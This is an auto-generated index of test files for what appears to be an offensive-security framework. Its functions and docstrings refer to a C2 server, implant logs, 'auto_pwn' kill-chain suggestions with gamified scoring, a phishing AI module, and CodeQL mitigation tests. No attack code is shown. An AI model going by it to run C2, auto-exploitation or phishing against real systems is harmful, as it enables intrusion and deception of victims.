- `test_custom_override_preserves_other_defaults` (line 29) `def test_custom_override_preserves_other_defaults(self)`
- `test_formats_record_as_valid_json_line` (line 50) `def test_formats_record_as_valid_json_line(self)`
- `test_redacts_sensitive_extra_fields` (line 74) `def test_redacts_sensitive_extra_fields(self)`
- `test_includes_exception_traceback_when_present` (line 98) `def test_includes_exception_traceback_when_present(self)`
- `test_make_records_promote_extra_fields_onto_record` (line 125) `def test_make_records_promote_extra_fields_onto_record(self)`
- `test_first_call_creates_and_configures_logger` (line 147) `def test_first_call_creates_and_configures_logger(self)`
- `test_same_name_returns_cached_instance` (line 156) `def test_same_name_returns_cached_instance(self)`
- `test_writes_json_lines_to_file` (line 166) `def test_writes_json_lines_to_file(self, tmp_path)`
- `test_reconfigure_resets_cache_and_applies_new_config` (line 196) `def test_reconfigure_resets_cache_and_applies_new_config(self, tmp_path)`
- `test_cold_logger_gets_console_and_file_wiring` (line 223) `def test_cold_logger_gets_console_and_file_wiring(self, tmp_path)`
- `test_warm_logger_keeps_custom_handler_and_appends_json_file` (line 241) `def test_warm_logger_keeps_custom_handler_and_appends_json_file(self, tmp_path)`
- `test_second_install_is_idempotent` (line 260) `def test_second_install_is_idempotent(self, tmp_path)`

#### `test_surface_graph.py`
**Path:** `tests/test_surface_graph.py`
**File Doc:** *Tests for the network surface graph reader.  The reader composes the same picture that ``templates/index.html`` renders with ``vis.js`` but works from the on-disk session artefacts so it can be exercised in isolation without booting the C2 Flask server.*

**Functions:**
- `_write_implant_log` (line 53) `def _write_implant_log(path)`
- `_write_payload` (line 62) `def _write_payload(tmp_path)`
- `_build` (line 74) `def _build(tmp_path, sessions)`
- `sessions_dir` (line 80) `def sessions_dir(tmp_path)`
- `test_empty_sessions_still_produce_c2_root` (line 86) `def test_empty_sessions_still_produce_c2_root(tmp_path, sessions_dir)`
- `test_hostsdiscovery_populates_host_nodes` (line 95) `def test_hostsdiscovery_populates_host_nodes(tmp_path, sessions_dir)`
- `test_scan_discovery_csv_adds_ports_and_services` (line 112) `def test_scan_discovery_csv_adds_ports_and_services(tmp_path, sessions_dir)`
- `test_implant_log_creates_client_and_links_hosts` (line 137) `def test_implant_log_creates_client_and_links_hosts(tmp_path, sessions_dir)`
- `test_non_implant_logs_are_ignored` (line 180) `def test_non_implant_logs_are_ignored(tmp_path, sessions_dir)`
- `test_to_dict_round_trips_through_json` (line 189) `def test_to_dict_round_trips_through_json(tmp_path, sessions_dir)`
- `test_iter_descendants_walks_only_outgoing_edges` (line 200) `def test_iter_descendants_walks_only_outgoing_edges(tmp_path, sessions_dir)`
- `test_build_surface_graph_factory_works_without_payload_file` (line 210) `def test_build_surface_graph_factory_works_without_payload_file(tmp_path, sessions_dir)`
- `test_invalid_portscan_blob_does_not_crash` (line 218) `def test_invalid_portscan_blob_does_not_crash(tmp_path, sessions_dir)`

#### `test_sync_doc_stats.py`
**Path:** `tests/test_sync_doc_stats.py`
**File Doc:** *Tests for the documentation-stats single source of truth.  The module under test lives in ``scripts/``, which is not an importable package, so it is surfaced by importing it via ``importlib.util`` from its path. These tests lock the contract that documentation numbers are derived from the committed command index and never drift independently.*

**Functions:**
- `_load_module` (line 20) `def _load_module()`
- `mod` (line 28) `def mod()`
- `test_canonical_command_count_reads_index` (line 32) `def test_canonical_command_count_reads_index(mod, tmp_path)`
- `test_measure_stats_command_count_matches_index` (line 39) `def test_measure_stats_command_count_matches_index(mod, tmp_path)`
- `test_sync_check_does_not_write` (line 67) `def test_sync_check_does_not_write(mod, tmp_path)`
- `test_sync_apply_rewrites_when_stale` (line 80) `def test_sync_apply_rewrites_when_stale(mod, tmp_path)`
- `test_render_formats_template` (line 92) `def test_render_formats_template(mod)`

#### `test_themes.py`
**Path:** `tests/test_themes.py`
**File Doc:** *Tests for cli/themes.py.  Verifies registry membership, default fallback behaviour and the ``payload.json``-driven selector. No Textual or terminal interaction.*

**Functions:**
- `test_themes_registry_contains_required_entries` (line 24) `def test_themes_registry_contains_required_entries()` - *The registry exposes the default plus the three alternates.*
- `test_get_theme_returns_default_for_unknown_name` (line 30) `def test_get_theme_returns_default_for_unknown_name()` - *Unknown names fall back to the default theme without raising.*
- `test_get_theme_is_case_insensitive` (line 35) `def test_get_theme_is_case_insensitive()` - *Theme names are normalised before lookup.*
- `test_theme_from_payload_none_yields_default` (line 40) `def test_theme_from_payload_none_yields_default()` - *``None`` payloads return the default theme.*
- `test_theme_from_payload_picks_named_theme` (line 45) `def test_theme_from_payload_picks_named_theme()` - *A valid payload key swaps the theme.*
- `test_theme_dataclass_is_immutable` (line 51) `def test_theme_dataclass_is_immutable()` - *Themes are frozen dataclasses to prevent in-place mutation.*

#### `test_timeline_browser.py`
**Path:** `tests/test_timeline_browser.py`
**File Doc:** *Tests for cli/timeline_browser.py.  Verifies CSV ingestion, filtering and column resolution. Textual is not exercised here.*

**Functions:**
- `_write_report` (line 24) `def _write_report(path, rows)`
- `test_reader_returns_empty_when_csv_missing` (line 34) `def test_reader_returns_empty_when_csv_missing(tmp_path)` - *Missing report yields an empty list, never raises.*
- `test_reader_parses_rows` (line 40) `def test_reader_parses_rows(tmp_path)` - *CSV rows become :class:`TimelineEntry` objects with stripped values.*
- `test_state_filters_across_columns` (line 67) `def test_state_filters_across_columns(tmp_path)` - *Filter substring matches every column value of an entry.*
- `test_state_filter_empty_returns_all` (line 84) `def test_state_filter_empty_returns_all(tmp_path)` - *An empty filter returns every entry.*
- `test_column_value_falls_back_through_source_keys` (line 92) `def test_column_value_falls_back_through_source_keys(tmp_path)` - *The first non-empty source key wins.*
- `test_state_reload_drops_cache` (line 102) `def test_state_reload_drops_cache(tmp_path)` - *Reload forces the next ``entries`` call to re-read disk.*
- `test_reader_truncates_long_field_values` (line 113) `def test_reader_truncates_long_field_values(tmp_path)` - *Field values longer than ``max_field_chars`` are truncated.*

#### `test_tips_engine.py`
**Path:** `tests/test_tips_engine.py`
**File Doc:** *Tests for cli.tips_engine — unified post-command suggestion engine.  Covers: - TipsConfig defaults and customisation - TipsEngine construction and state management - Kill-chain hint computation - ELO scoring calculation - Badge award logic - VRI threshold generation - Sanitisation of commands_seen*

**Classes:**
- `TestTipsConfig` (line 77) `class TestTipsConfig`
- `TestEngagementState` (line 104) `class TestEngagementState`
- `TestTipsEngineConstruction` (line 119) `class TestTipsEngineConstruction`
- `TestKillChainHints` (line 138) `class TestKillChainHints`
- `TestChainActiveSuppression` (line 152) `class TestChainActiveSuppression`
- `TestHintsLevelGating` (line 200) `class TestHintsLevelGating`
- `TestELOScoring` (line 280) `class TestELOScoring`
- `TestVRIThresholds` (line 305) `class TestVRIThresholds`
- `TestCommandsSeenSanitisation` (line 318) `class TestCommandsSeenSanitisation`
- `TestSkipCommands` (line 342) `class TestSkipCommands`
- `TestCommandNameRegex` (line 357) `class TestCommandNameRegex`
- `TestTruncate` (line 373) `class TestTruncate`
- `TestKarmaNames` (line 385) `class TestKarmaNames`
- `TestBuildDefaultConfig` (line 396) `class TestBuildDefaultConfig`

**Functions:**
- `tmp_sessions` (line 39) `def tmp_sessions()`
- `config` (line 48) `def config()`
- `engine` (line 70) `def engine(config, tmp_sessions)`
- `stub` (line 164) `def stub(name)`
- `stub` (line 211) `def stub(name)`
- `record` (line 165) `def record()`
- `record` (line 212) `def record()`

**Methods:**
- `test_default_config_has_sensible_values` (line 78) `def test_default_config_has_sensible_values(self)`
- `test_build_default_tips_config_populates_tables` (line 86) `def test_build_default_tips_config_populates_tables(self)`
- `test_default_state` (line 105) `def test_default_state(self)`
- `test_badges_field_defaults_to_list` (line 113) `def test_badges_field_defaults_to_list(self)`
- `test_engine_initialises_with_config` (line 120) `def test_engine_initialises_with_config(self, config)`
- `test_engine_can_disable` (line 125) `def test_engine_can_disable(self, config)`
- `test_render_skips_disabled_engine` (line 130) `def test_render_skips_disabled_engine(self, config, capsys)`
- `test_ping_suggests_lazynmap` (line 139) `def test_ping_suggests_lazynmap(self, engine)`
- `test_lazynmap_suggests_auto_pwn` (line 143) `def test_lazynmap_suggests_auto_pwn(self, engine)`
- `test_auto_pwn_suggests_hunt` (line 147) `def test_auto_pwn_suggests_hunt(self, engine)`
- `_render_with_surfaces_stubbed` (line 153) `def _render_with_surfaces_stubbed(self, engine)`
- `test_chain_active_suppresses_competing_suggestion_surfaces` (line 179) `def test_chain_active_suppresses_competing_suggestion_surfaces(self, engine)`
- `test_chain_inactive_keeps_all_surfaces` (line 190) `def test_chain_inactive_keeps_all_surfaces(self, engine)`
- `_stub_surfaces` (line 201) `def _stub_surfaces(self, engine)`
- `test_hints_level_constants` (line 225) `def test_hints_level_constants(self)`
- `test_default_config_is_on` (line 232) `def test_default_config_is_on(self)`
- `test_off_suppresses_all_surfaces` (line 235) `def test_off_suppresses_all_surfaces(self, engine)`
- `test_minimal_runs_autosuggest_only` (line 245) `def test_minimal_runs_autosuggest_only(self, engine)`
- `test_on_runs_every_surface` (line 255) `def test_on_runs_every_surface(self, engine)`
- `test_invalid_level_falls_back_to_on` (line 264) `def test_invalid_level_falls_back_to_on(self, engine)`
- `test_get_hints_level_reads_config` (line 271) `def test_get_hints_level_reads_config(self, engine)`
- `test_get_hints_level_defaults_for_invalid` (line 275) `def test_get_hints_level_defaults_for_invalid(self, engine)`
- `test_base_elo_awarded` (line 281) `def test_base_elo_awarded(self, engine)`
- `test_high_value_command_bonus` (line 285) `def test_high_value_command_bonus(self, engine)`
- `test_first_time_bonus` (line 289) `def test_first_time_bonus(self, config)`
- `test_new_phase_bonus` (line 294) `def test_new_phase_bonus(self, config)`
- `test_no_double_count_first_time_plus_new_phase` (line 299) `def test_no_double_count_first_time_plus_new_phase(self, config)`
- `test_next_threshold_increases` (line 306) `def test_next_threshold_increases(self, engine)`
- `test_next_threshold_never_less_than_two` (line 312) `def test_next_threshold_never_less_than_two(self, engine)`
- `test_valid_commands_kept` (line 319) `def test_valid_commands_kept(self)`
- `test_invalid_entries_dropped` (line 325) `def test_invalid_entries_dropped(self)`
- `test_known_filter_drops_unknown` (line 332) `def test_known_filter_drops_unknown(self)`
- `test_skip_set_contains_common_noise` (line 343) `def test_skip_set_contains_common_noise(self)`
- `test_ping_not_skipped` (line 350) `def test_ping_not_skipped(self)`
- `test_auto_pwn_not_skipped` (line 353) `def test_auto_pwn_not_skipped(self)`
- `test_valid_command_names` (line 358) `def test_valid_command_names(self)`
- `test_invalid_command_names` (line 365) `def test_invalid_command_names(self)`
- `test_short_value_untouched` (line 374) `def test_short_value_untouched(self)`
- `test_long_value_truncated` (line 377) `def test_long_value_truncated(self)`
- `test_empty_value` (line 381) `def test_empty_value(self)`
- `test_noob_at_zero` (line 386) `def test_noob_at_zero(self)`
- `test_rookie_at_thousand` (line 389) `def test_rookie_at_thousand(self)`
- `test_godlike_above_6000` (line 392) `def test_godlike_above_6000(self)`
- `test_config_includes_automation_commands` (line 397) `def test_config_includes_automation_commands(self)`
- `test_config_has_high_value_for_new_commands` (line 410) `def test_config_has_high_value_for_new_commands(self)`
- `test_config_has_session_tips` (line 417) `def test_config_has_session_tips(self)`

#### `test_toast_bus.py`
**Path:** `tests/test_toast_bus.py`
**File Doc:** *Tests for cli/toast_bus.py.  Covers offset persistence, JSONL parsing, severity-to-role mapping, budget enforcement and the toggle-by-payload behaviour. The Textual app is never instantiated — the tests use the Rich console capture mode.*

**Functions:**
- `_write_jsonl` (line 34) `def _write_jsonl(path, records)`
- `_append_jsonl` (line 42) `def _append_jsonl(path, records)`
- `test_state_round_trip` (line 49) `def test_state_round_trip(tmp_path)` - *Offsets persist across :class:`ToastState` instances.*
- `test_state_clamps_negative_offsets` (line 59) `def test_state_clamps_negative_offsets(tmp_path)` - *Negative offsets are coerced to zero.*
- `test_reader_returns_unseen_events_only` (line 67) `def test_reader_returns_unseen_events_only(tmp_path)` - *A second read returns no events when the offset is current.*
- `test_reader_handles_malformed_lines` (line 80) `def test_reader_handles_malformed_lines(tmp_path)` - *Non-JSON lines are skipped without raising.*
- `test_formatter_uses_theme_role_for_severity` (line 91) `def test_formatter_uses_theme_role_for_severity()` - *Severity strings map to theme roles via the configured table.*
- `test_bus_render_respects_per_tick_budget` (line 109) `def test_bus_render_respects_per_tick_budget(tmp_path)` - *At most ``max_per_tick_default`` events are printed in one call.*
- `test_bus_render_disabled_returns_zero` (line 127) `def test_bus_render_disabled_returns_zero(tmp_path)` - *The bus is a no-op when ``enabled`` is False.*
- `test_bus_mark_all_seen_consumes_pending` (line 140) `def test_bus_mark_all_seen_consumes_pending(tmp_path)` - *``mark_all_seen`` advances the offset for every configured file.*
- `test_toasts_enabled_default_true` (line 157) `def test_toasts_enabled_default_true()` - *Missing payload flag yields True so first runs see notifications.*
- `test_render_toasts_returns_count` (line 165) `def test_render_toasts_returns_count(tmp_path)` - *The one-shot helper returns the number of toast lines printed.*
- `test_build_default_bus_honours_budget` (line 175) `def test_build_default_bus_honours_budget(tmp_path)` - *The factory propagates ``toast_max_per_tick`` into the config.*
- `test_reader_picks_up_new_events_after_offset` (line 187) `def test_reader_picks_up_new_events_after_offset(tmp_path)` - *Appended events past the previous offset are surfaced on next read.*
- `_toast_event` (line 199) `def _toast_event(kind, severity, summary)` - *Build one toast event for formatter tests.*
- `test_prominent_completion_renders_full_text` (line 211) `def test_prominent_completion_renders_full_text()` - *ENGAGE_DONE keeps its complete message instead of a truncated line.*
- `test_prominent_severity_renders_panel` (line 229) `def test_prominent_severity_renders_panel()` - *Error events render as toastr panels with full text.*
- `test_over_budget_events_collapse_into_digest` (line 242) `def test_over_budget_events_collapse_into_digest()` - *Events beyond the tick budget surface as a digest, never silently.*

#### `test_trusted_proxy.py`
**Path:** `tests/test_trusted_proxy.py`
**File Doc:** *TDD tests for the trusted proxy resolver contract.  Contract: ``lazyc2.security.trusted_proxy.TrustedProxyResolver.client_ip`` returns the real client IP, ignoring spoofed ``X-Forwarded-For`` entries when no trusted proxy count is configured.  Invariants:  1. ``trusted_count=0``: always returns ``remote_addr`` and ignores ``X-Forwarded-For`` entirely. 2. ``trusted_count=N``: parses ``X-Forwarded-For`` right-to-left, skipping the rightmost N entries, and returns the leftmost untrusted address. 3. Missing or empty ``X-Forwarded-For`` falls back to ``remote_addr``. 4. ``is_operator(remote_addr)`` matches the configured operator allowlist.*

**Classes:**
- `TestNoProxy` (line 22) `class TestNoProxy` - *Without a trusted proxy, X-Forwarded-For is ignored.*
- `TestTrustedProxy` (line 43) `class TestTrustedProxy` - *With a trusted proxy, X-Forwarded-For is parsed.*
- `TestIsOperator` (line 99) `class TestIsOperator` - *Verify operator allowlist checks.*

**Methods:**
- `test_remote_addr_returned` (line 25) `def test_remote_addr_returned(self)`
- `test_no_header_falls_back_to_remote` (line 38) `def test_no_header_falls_back_to_remote(self)`
- `test_single_proxy_returns_leftmost` (line 46) `def test_single_proxy_returns_leftmost(self)`
- `test_two_proxies_returns_leftmost` (line 59) `def test_two_proxies_returns_leftmost(self)`
- `test_insufficient_chain_falls_back` (line 72) `def test_insufficient_chain_falls_back(self)`
- `test_empty_header_falls_back` (line 85) `def test_empty_header_falls_back(self)`
- `test_match` (line 102) `def test_match(self)`
- `test_no_match` (line 109) `def test_no_match(self)`

#### `test_tui_splash.py`
**Path:** `tests/test_tui_splash.py`
**File Doc:** *Tests for cli.splash — the animated first-run overlay.*

**Classes:**
- `SplashInstantEffectTests` (line 30) `class SplashInstantEffectTests(TestCase)`
- `SplashTypewriterEffectTests` (line 67) `class SplashTypewriterEffectTests(TestCase)`
- `SplashDispatchTests` (line 81) `class SplashDispatchTests(TestCase)`
- `SplashEdgeCaseTests` (line 145) `class SplashEdgeCaseTests(TestCase)`

**Functions:**
- `_console` (line 19) `def _console()` - *Build a Rich console that writes into an in-memory buffer.*

**Methods:**
- `test_instant_renders_every_line` (line 31) `def test_instant_renders_every_line(self)`
- `test_instant_does_not_block` (line 44) `def test_instant_does_not_block(self)`
- `test_instant_emits_ansi_for_known_tokens` (line 56) `def test_instant_emits_ansi_for_known_tokens(self)`
- `test_typewriter_renders_all_lines_when_total_seconds_high` (line 68) `def test_typewriter_renders_all_lines_when_total_seconds_high(self)`
- `test_render_splash_dispatches_instant_for_zero_seconds` (line 82) `def test_render_splash_dispatches_instant_for_zero_seconds(self)`
- `test_render_splash_dispatches_instant_when_explicit` (line 92) `def test_render_splash_dispatches_instant_when_explicit(self)`
- `test_render_splash_unknown_effect_falls_back_to_instant` (line 103) `def test_render_splash_unknown_effect_falls_back_to_instant(self)`
- `test_render_splash_uses_payload_theme_when_provided` (line 114) `def test_render_splash_uses_payload_theme_when_provided(self)`
- `test_render_splash_clear_after_emits_clear_escape` (line 124) `def test_render_splash_clear_after_emits_clear_escape(self)`
- `test_render_splash_no_clear_when_disabled` (line 134) `def test_render_splash_no_clear_when_disabled(self)`
- `test_empty_lines_is_noop` (line 146) `def test_empty_lines_is_noop(self)`
- `test_lines_with_brackets_render_verbatim` (line 156) `def test_lines_with_brackets_render_verbatim(self)`

#### `test_tui_style.py`
**Path:** `tests/test_tui_style.py`
**File Doc:** *Tests for the cli/style semantic token layer.*

**Classes:**
- `StyleTokenTests` (line 14) `class StyleTokenTests(TestCase)`

**Methods:**
- `test_known_token_returns_theme_attribute` (line 15) `def test_known_token_returns_theme_attribute(self)`
- `test_unknown_token_falls_back_to_white` (line 21) `def test_unknown_token_falls_back_to_white(self)`
- `test_active_tokens_covers_every_key` (line 25) `def test_active_tokens_covers_every_key(self)`
- `test_active_tokens_honours_payload` (line 32) `def test_active_tokens_honours_payload(self)`
- `test_paint_returns_rich_text_with_style` (line 39) `def test_paint_returns_rich_text_with_style(self)`
- `test_render_prompt_emits_segments_separated_by_bar` (line 44) `def test_render_prompt_emits_segments_separated_by_bar(self)`
- `test_render_prompt_empty_is_noop` (line 59) `def test_render_prompt_empty_is_noop(self)`

#### `test_tui_theme_command.py`
**Path:** `tests/test_tui_theme_command.py`
**File Doc:** *Tests for the cli.tui_theme command logic.*

**Classes:**
- `RecordingSave` (line 11) `class RecordingSave` - *Minimal stand-in for the payload writer used in tests.*
- `TuiThemeListingTests` (line 28) `class TuiThemeListingTests(TestCase)`
- `TuiThemeSwitchTests` (line 46) `class TuiThemeSwitchTests(TestCase)`
- `TuiThemeCycleTests` (line 78) `class TuiThemeCycleTests(TestCase)`
- `TuiThemeRegistrationConsistencyTests` (line 105) `class TuiThemeRegistrationConsistencyTests(TestCase)`

**Functions:**
- `_payload` (line 21) `def _payload()` - *Build a fresh payload dict with optional overrides.*

**Methods:**
- `__init__` (line 14) `def __init__(self)`
- `__call__` (line 17) `def __call__(self, payload)`
- `test_empty_args_lists_every_registered_theme` (line 29) `def test_empty_args_lists_every_registered_theme(self)`
- `test_listing_marks_current_theme` (line 38) `def test_listing_marks_current_theme(self)`
- `test_known_name_switches_and_persists` (line 47) `def test_known_name_switches_and_persists(self)`
- `test_unknown_name_does_not_mutate` (line 55) `def test_unknown_name_does_not_mutate(self)`
- `test_case_insensitive_lookup` (line 63) `def test_case_insensitive_lookup(self)`
- `test_reset_returns_to_default` (line 70) `def test_reset_returns_to_default(self)`
- `test_cycle_advances_in_theme_order` (line 79) `def test_cycle_advances_in_theme_order(self)`
- `test_cycle_wraps_around` (line 87) `def test_cycle_wraps_around(self)`
- `test_prev_walks_backwards_and_wraps` (line 94) `def test_prev_walks_backwards_and_wraps(self)`
- `test_theme_order_covers_every_registered_theme` (line 106) `def test_theme_order_covers_every_registered_theme(self)`
- `test_theme_order_has_no_duplicates` (line 109) `def test_theme_order_has_no_duplicates(self)`

#### `test_tui_themes.py`
**Path:** `tests/test_tui_themes.py`
**File Doc:** *Tests for the four new themes added on top of the original four.  The original theme set (default, dim, bright, colorblind) is covered by test_tui_style.py. These tests assert the *new* themes (solarized, monokai, gruvbox, high_contrast) are wired correctly, that their hex colors parse under Rich's truecolor engine, and that the resolver returns the right theme for each name.*

**Classes:**
- `NewThemeRegistrationTests` (line 39) `class NewThemeRegistrationTests(TestCase)`
- `NewThemeRenderTests` (line 86) `class NewThemeRenderTests(TestCase)` - *Render every token of every new theme through Rich.

This catches the case where a hex color like ``#b58900`` is set as
a token style but Rich silently drops it (e.g. when color_system
is downgraded to ``"standard"``). We force truecolor and assert
ANSI escapes are emitted.*
- `ThemeOrderTests` (line 130) `class ThemeOrderTests(TestCase)`

**Methods:**
- `test_every_new_theme_is_registered` (line 40) `def test_every_new_theme_is_registered(self)`
- `test_original_themes_remain_registered` (line 45) `def test_original_themes_remain_registered(self)`
- `test_get_theme_resolves_every_new_name` (line 50) `def test_get_theme_resolves_every_new_name(self)`
- `test_get_theme_uses_case_insensitive_lookup` (line 55) `def test_get_theme_uses_case_insensitive_lookup(self)`
- `test_unknown_name_falls_back_to_default` (line 59) `def test_unknown_name_falls_back_to_default(self)`
- `test_theme_from_payload_picks_each_new_theme` (line 64) `def test_theme_from_payload_picks_each_new_theme(self)`
- `test_new_themes_have_unique_color_palettes` (line 72) `def test_new_themes_have_unique_color_palettes(self)`
- `test_new_themes_have_non_empty_token_values` (line 76) `def test_new_themes_have_non_empty_token_values(self)`
- `test_every_token_renders_with_ansi_escapes` (line 95) `def test_every_token_renders_with_ansi_escapes(self)`
- `test_every_token_renders_with_ansi_escapes_in_256color` (line 112) `def test_every_token_renders_with_ansi_escapes_in_256color(self)`
- `test_order_covers_every_registered_theme_exactly_once` (line 131) `def test_order_covers_every_registered_theme_exactly_once(self)`
- `test_order_is_reexported_by_tui_theme_command` (line 135) `def test_order_is_reexported_by_tui_theme_command(self)`

#### `test_unified_bridge_delegate.py`
**Path:** `tests/test_unified_bridge_delegate.py`
**File Doc:** *Contract tests for UnifiedBridge.delegate agent polling.  SDD contract: ``delegate`` drives the public agent-bridge API (``start_agent`` + ``get_agent_status``/``get_agent_result``); the constructor/thread internals of ``AgentBridgeWorker`` are never touched.*

**Functions:**
- `unified_bridge` (line 16) `def unified_bridge(monkeypatch)`
- `_patch_bridge_api` (line 25) `def _patch_bridge_api(monkeypatch, statuses, result)`
- `test_delegate_polls_until_completion` (line 40) `def test_delegate_polls_until_completion(monkeypatch, unified_bridge)`
- `test_delegate_times_out_when_agent_never_finishes` (line 55) `def test_delegate_times_out_when_agent_never_finishes(monkeypatch, unified_bridge)`
- `test_delegate_reports_agent_failure` (line 66) `def test_delegate_reports_agent_failure(monkeypatch, unified_bridge)`
- `test_delegate_surfaces_missing_agent` (line 77) `def test_delegate_surfaces_missing_agent(monkeypatch, unified_bridge)`
- `test_delegate_wraps_start_errors` (line 87) `def test_delegate_wraps_start_errors(monkeypatch, unified_bridge)`
- `fake_start` (line 30) `def fake_start(goal, backend, runner, max_iterations)`
- `boom` (line 90) `def boom()`

#### `test_unified_dashboard.py`
**Path:** `tests/test_unified_dashboard.py`
**File Doc:** *Tests for modules/unified_dashboard.py.*

**Classes:**
- `TestUnifiedDashboardInit` (line 10) `class TestUnifiedDashboardInit`
- `TestWorldModelCollection` (line 21) `class TestWorldModelCollection`
- `TestDaemonStatus` (line 36) `class TestDaemonStatus`
- `TestUnifiedSnapshot` (line 51) `class TestUnifiedSnapshot`
- `TestRenderUnified` (line 74) `class TestRenderUnified`
- `TestExportJson` (line 95) `class TestExportJson`

**Methods:**
- `test_default_init` (line 11) `def test_default_init(self, tmp_path)`
- `test_get_unified_dashboard_singleton` (line 15) `def test_get_unified_dashboard_singleton(self, tmp_path)`
- `test_collect_world_model_exists` (line 22) `def test_collect_world_model_exists(self, tmp_path)`
- `test_collect_world_model_missing` (line 30) `def test_collect_world_model_missing(self, tmp_path)`
- `test_collect_daemon_status_exists` (line 37) `def test_collect_daemon_status_exists(self, tmp_path)`
- `test_collect_daemon_status_missing` (line 45) `def test_collect_daemon_status_missing(self, tmp_path)`
- `test_snapshot_keys` (line 52) `def test_snapshot_keys(self, tmp_path)`
- `test_snapshot_timestamp` (line 67) `def test_snapshot_timestamp(self, tmp_path)`
- `test_render_contains_header` (line 75) `def test_render_contains_header(self, tmp_path)`
- `test_render_contains_sections` (line 80) `def test_render_contains_sections(self, tmp_path)`
- `test_render_contains_timestamp` (line 89) `def test_render_contains_timestamp(self, tmp_path)`
- `test_export_json` (line 96) `def test_export_json(self, tmp_path)`

#### `test_viral_adoption.py`
**Path:** `tests/test_viral_adoption.py`
**File Doc:** *Viral adoption assets: GIFs, smoke script, drift CI, launch kit.*

**Functions:**
- `test_demo_gifs_exist_and_nonempty` (line 8) `def test_demo_gifs_exist_and_nonempty()`
- `test_demo_gif_commands_exist_in_source` (line 23) `def test_demo_gif_commands_exist_in_source()` - *Every command shown in a GIF must exist as do_* or addon.*
- `test_readme_links_viral_assets` (line 75) `def test_readme_links_viral_assets()`
- `test_smoke_script_covers_onboarding` (line 83) `def test_smoke_script_covers_onboarding()`
- `test_docs_drift_workflow_exists` (line 89) `def test_docs_drift_workflow_exists()`
- `test_marketplace_template_exists` (line 95) `def test_marketplace_template_exists()`
- `test_launch_kit_exists` (line 101) `def test_launch_kit_exists()`

#### `test_vuln_mitigations.py`
**Path:** `tests/test_vuln_mitigations.py`
**File Doc:** *Regression suite for the GitHub code-scanning mitigations.  The CodeQL ruleset shipped on the repository flagged a number of patterns that this suite locks in once they are mitigated. Every test class targets a single rule so a failure points at the specific contract that drifted.  Architecture:  - :class:`MitigationSuiteConfig` is the only place where paths, ``ast`` conventions and the catalogue of fixed handlers live. Adding a new mitigation means appending one entry, not editing assertions. - One test class per CodeQL rule. Behavioural tests run end-to-end where practical (e.g. the regex sanitiser); structural tests parse the source with :mod:`ast` so they do not require a running Flask app.*

**Classes:**
- `MitigationSuiteConfig` (line 29) `class MitigationSuiteConfig` - *Centralised constants for the vulnerability-mitigation suite.

Every literal the suite depends on lives here. ``frozen=True`` prevents
accidental mutation by per-test consumers.*
- `TestStackTraceSanitisation` (line 89) `class TestStackTraceSanitisation` - *``py/stack-trace-exposure`` mitigations are in place.*
- `TestSentinelRegexSafety` (line 166) `class TestSentinelRegexSafety` - *``py/overly-large-range`` mitigation in ``lazy_sentinel4.sanitize_content``.

The host module pulls in heavyweight optional dependencies (langchain,
rich, watchdog) that may be absent in lean test environments. To keep
the regression contract decoupled from those imports the suite reads
the source, extracts the substitution pattern and exercises it against
a stable input set.*
- `TestMitigationConfigInvariants` (line 224) `class TestMitigationConfigInvariants` - *Smoke tests that the suite configuration matches the repo state.*

**Functions:**
- `mitigation_config` (line 64) `def mitigation_config()` - *Single, immutable configuration shared by every test class.*
- `_read_module` (line 69) `def _read_module(config, relative_path)` - *Return the source text of a module relative to the repo root.*
- `_iter_function_bodies` (line 77) `def _iter_function_bodies(src)` - *Yield ``(function_name, body_source)`` for every function in ``src``.*

**Methods:**
- `repo_root` (line 58) `def repo_root(self)` - *Absolute path to the repository root.*
- `lazyc2_src` (line 93) `def lazyc2_src(self, mitigation_config)` - *The full text of ``lazyc2.py``.*
- `phishingai_src` (line 98) `def phishingai_src(self, mitigation_config)` - *The full text of ``modules/lazyphishingai.py``.*
- `test_log_handler_returns_generic_message` (line 102) `def test_log_handler_returns_generic_message(self, lazyc2_src)` - *``/log`` no longer returns the raw exception string.*
- `test_log_handler_keeps_server_side_logging` (line 112) `def test_log_handler_keeps_server_side_logging(self, lazyc2_src)` - *The mitigation preserves the server-side ``logger`` call.*
- `test_palette_api_returns_generic_message` (line 121) `def test_palette_api_returns_generic_message(self, lazyc2_src)` - *``/api/palette`` no longer leaks the file-system path of the index.*
- `test_palette_api_keeps_server_side_logging` (line 131) `def test_palette_api_keeps_server_side_logging(self, lazyc2_src)` - *The mitigation preserves the server-side ``logger.error`` call.*
- `test_dynamic_route_drops_raw_save_to_log_payload` (line 140) `def test_dynamic_route_drops_raw_save_to_log_payload(self, lazyc2_src)` - *The ``dynamic_route`` handler no longer echoes ``response[0]``.*
- `test_phishing_ai_returns_generic_message` (line 149) `def test_phishing_ai_returns_generic_message(self, phishingai_src)` - *The phishing AI module no longer leaks ``str(ex)`` from the API call.*
- `test_no_forbidden_response_substrings_remain` (line 154) `def test_no_forbidden_response_substrings_remain(self, lazyc2_src, phishingai_src, mitigation_config)` - *No remaining handler echoes a raw exception string in jsonify.*
- `src` (line 177) `def src(self, mitigation_config)` - *The full text of ``lazy_sentinel4.py``.*
- `_extract_sanitise_pattern` (line 181) `def _extract_sanitise_pattern(self, src)` - *Return the printable-ASCII pattern wired into ``sanitize_content``.*
- `test_no_redundant_character_range_in_sanitise` (line 188) `def test_no_redundant_character_range_in_sanitise(self, src)` - *The simplified character class is what landed.*
- `test_pattern_matches_simplified_form` (line 193) `def test_pattern_matches_simplified_form(self, src)` - *The pattern extracted from source is the simplified one.*
- `test_pattern_keeps_printable_ascii` (line 197) `def test_pattern_keeps_printable_ascii(self, src)` - *All printable ASCII characters survive the substitution unchanged.*
- `test_pattern_keeps_tab_and_newline` (line 203) `def test_pattern_keeps_tab_and_newline(self, src)` - *``\t`` and ``\n`` survive even though they fall outside ``\x20-\x7E``.*
- `test_pattern_strips_control_bytes` (line 209) `def test_pattern_strips_control_bytes(self, src)` - *Bytes below ``\x20`` (other than tab/newline) are replaced.*
- `test_pattern_does_not_strip_brackets` (line 217) `def test_pattern_does_not_strip_brackets(self, src)` - *The mitigation no longer accidentally drops ``]``, ``)`` or ``|``.*
- `test_handler_module_paths_exist` (line 227) `def test_handler_module_paths_exist(self, mitigation_config)` - *Every handler module referenced by the suite is present on disk.*
- `test_sentinel_module_exists` (line 232) `def test_sentinel_module_exists(self, mitigation_config)` - *The sentinel module that hosts ``sanitize_content`` is present.*
- `test_sentinel_function_exposed` (line 236) `def test_sentinel_function_exposed(self, mitigation_config)` - *``sanitize_content`` is importable for behavioural tests.*

#### `test_wizard_binary_check.py`
**Path:** `tests/test_wizard_binary_check.py`
